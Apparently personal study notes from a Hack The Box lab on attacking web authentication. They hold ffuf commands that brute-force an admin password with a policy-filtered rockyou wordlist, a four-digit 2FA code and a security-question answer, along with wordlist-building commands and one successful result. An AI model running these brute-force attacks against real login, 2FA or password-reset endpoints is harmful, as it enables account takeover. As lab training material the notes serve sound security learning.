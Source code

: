 ## User Enumeration
Brute-forcing

### Response Timing
[[Whitebox_Attacks]]

[[Important_Payloads_PWD_BruteForce.pdf]]

## Custom Payload (Policies)
```shell-session
alakin2504@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

alakin2504@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

## ffuf
```
ffuf -w ./custom_wordlist.txt -u http://94.237.59.98:57232/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```


## Sequence/OTP
```shell-session
alakin2504@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

```
ffuf -w ./tokens.txt -u http://83.136.249.227:51338/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=ant0a8oh57n370f08tsuft632h" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

OTP bruteforce

https://www.cirt.net/passwords => Default passwords DB

## Questions Bruteforce
```shell-session
alakin2504@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

File in question: https://github.com/datasets/world-cities/blob/main/data/world-cities.csv

```shell-session
alakin2504@htb[/htb]$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt

alakin2504@htb[/htb]$ wc -l city_wordlist.txt 

26468 city_wordlist.txt
```

